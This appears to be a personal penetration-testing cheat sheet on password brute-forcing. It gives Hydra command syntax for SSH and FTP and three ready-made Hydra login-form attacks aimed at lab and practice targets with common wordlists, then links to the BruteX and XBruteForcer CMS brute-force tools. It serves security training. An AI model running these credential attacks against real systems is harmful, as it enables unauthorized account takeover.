 # Hydra

* Hydra for SSH and FTP   
	```
	hydra -l [USER NAME] -p [PASSWORD] [IP ADDRESS] -t [NUMBER OF THREADS] [SSH OR FTP]
	```   

* To use a wordlist of usernames we can use the option `-L` and if you want a wordlist of password instead of just one use the option `-P`.

* I also found this code somewhere while I was researching (didn't really work with me). I'm documenting it here in case I needed to use some other time and it came into handy   
```
hydra -l admin -P /home/kali/mywordlist ignition.htb http-port-form "/admin?form_key=uCAJwNW5TywTQ3U8&login%5Busername%5D=^USER^&login%5Bpassword%5D=^PASS^"

//or this one   

hydra -l admin -P /usr/share/wordlists/rockyou.txt testasp.vulnweb.com http-post-form "/Login.asp?RetURL=%2FDefault%2Easp%3F:tfUName=^USER^&tfUPass=^PASS^:S=logout" -vV -f

//or this  

hydra -l admin -P /home/kali/Documents/cloned_reps/SecLists/Passwords/2020-200_most_used_passwords.txt -vV -f -t 5 10.129.157.36 http-post-form "/\\login:j_username=^USER^&j_password=^PASS^:loginError"
```  

	
### BruteX   
* Can be used to bruteforce passwords.
* Check out the code on Github through <a href="https://github.com/1N3/BruteX">this link</a>

### XBruteForcer   
* To bruteforce certain Content management systems. Taken from the official github page "Brute Force Tool 🔓 WordPress , Joomla , DruPal , OpenCart , Magento".
* Check out the github page <a href="https://github.com/Moham3dRiahi/XBruteForcer">here</a> .


<!--@nested-tags:Brute Force/Passwords-->